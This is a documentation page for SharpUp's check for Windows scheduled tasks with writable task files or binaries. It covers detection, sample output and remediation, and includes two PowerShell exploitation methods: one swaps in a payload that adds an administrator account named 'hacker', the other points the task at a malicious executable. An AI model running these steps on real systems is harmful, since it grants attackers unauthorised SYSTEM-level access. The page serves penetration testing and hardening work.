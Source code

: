 ```yaml
---
title: 'Modifiable Scheduled Task'
description: 'Scheduled tasks with weak file permissions'
icon: 'clock'
---
```


## Overview

The Modifiable Scheduled Task check identifies Windows scheduled tasks where either the task definition file or the binary executed by the task has weak permissions. This allows privilege escalation by modifying the task to execute malicious code with elevated privileges.

## How It Works

SharpUp examines scheduled tasks in `%SystemRoot%\System32\Tasks`:

1. Checks if task XML file is writable
2. Parses XML to find the command/binary to be executed
3. Checks if the binary is writable
4. Reports tasks where either file can be modified

### Technical Details

Scheduled tasks run with configured privileges (often SYSTEM). If you can modify either:
- The task XML file
- The executable the task runs

You can execute arbitrary code with those privileges.

## Example Output

```
=== Modifiable Scheduled Task ===
    Task Name              : \Microsoft\Windows\BackupTask
    Task Path              : C:\Windows\System32\Tasks\BackupTask
    Command                : C:\Scripts\backup.ps1
    Task XML Modifiable    : False
    Task Binary Modifiable : True
```

## Exploitation

### Method 1: Replace Binary

```powershell
# If binary is modifiable
$taskBinary = "C:\Scripts\backup.ps1"

# Backup original
Copy-Item $taskBinary "$taskBinary.bak"

# Replace with payload
$payload = "net user hacker P@ss /add && net localgroup administrators hacker /add"
$payload | Out-File $taskBinary

# Wait for task to run or trigger it
schtasks /run /tn "BackupTask"
```

### Method 2: Modify Task XML

```powershell
# If XML is modifiable
$taskXml = "C:\Windows\System32\Tasks\BackupTask"

# Read and modify XML
[xml]$xml = Get-Content $taskXml
$xml.Task.Actions.Exec.Command = "C:\temp\malicious.exe"
$xml.Save($taskXml)

# Task will run modified command at next schedule
```

## Remediation

<Steps>
  <Step title="Secure Task Files">
    ```powershell
    # Secure task directory
    $taskPath = "$env:SystemRoot\System32\Tasks"
    icacls $taskPath /inheritance:r
    icacls $taskPath /grant:r "SYSTEM:(OI)(CI)F"
    icacls $taskPath /grant:r "Administrators:(OI)(CI)F"
    icacls $taskPath /grant:r "Users:(OI)(CI)RX"
    ```
  </Step>

  <Step title="Secure Task Binaries">
    Apply proper permissions to executables used by scheduled tasks.
  </Step>
</Steps>

## Related Checks

<CardGroup cols={2}>
  <Card title="Modifiable Services" icon="gear" href="/ghostpack-docs/SharpUp-mdx/checks/modifiableservices">
    Check for modifiable services
  </Card>
  <Card title="Registry Autoruns" icon="list" href="/ghostpack-docs/SharpUp-mdx/checks/registryautoruns">
    Find modifiable autorun entries
  </Card>
</CardGroup>
